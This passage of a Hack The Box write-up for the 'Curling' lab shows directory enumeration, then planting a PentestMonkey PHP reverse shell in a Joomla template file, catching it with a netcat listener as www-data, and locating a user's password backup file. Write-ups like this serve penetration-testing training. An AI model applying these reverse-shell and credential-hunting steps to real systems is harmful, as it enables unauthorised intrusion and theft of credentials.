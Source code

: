 ```
/cache (Status: 301)
/libraries (Status: 301)
/tmp (Status: 301)
/layouts (Status: 301)
/administrator (Status: 301)
/cli (Status: 301)
/server-status (Status: 403)
=====================================================
2023/02/17 16:02:37 Finished
=====================================================
```
## Initial Access
I looked around and noticed that I could change the index.php site. There, I decided to edit the ```jsstrings.php``` file with a php reverse shell from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell). With that set, I needed to start a listener on my local machine. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ nc -lnvp 9999
Listening on 0.0.0.0 9999
```
And run the ```jstrings.php``` file by navigating to it in the browswer. 
```
http://[TARGET IP]/templates/beez3/jsstrings.php
```
I was able to catch the reverse shell and I was dropped in as ```www-data```. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on [TARGET IP] 35632
Linux curling 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 21:00:26 up 22:14,  0 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
In the home directory of user, floris, I was able to find a password_backup. 
```
$ ls -la
total 44
drwxr-xr-x 6 floris floris 4096 Aug  2  2022 .
drwxr-xr-x 3 root   root   4096 Aug  2  2022 ..
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 Aug  2  2022 .cache
drwx------ 3 floris floris 4096 Aug  2  2022 .gnupg
drwxrwxr-x 3 floris floris 4096 Aug  2  2022 .local
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
drwxr-x--- 2 root   floris 4096 Aug  2  2022 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 Feb 18 22:46 user.txt
```
I attempted to look at the file and it appeared to be a .BZ file based on its magic numbers. I needed to grab the file and format properly because it was currently enterpreted as ASCII text. 
```
$ file password_backup
password_backup: ASCII text
```
I copied the file over and kept only the ASCII output. 
```
ajread@aj-ubuntu:~/hackthebox/$ file password_backup.bz 
password_backup.bz: bzip2 compressed data, block size = 900k
```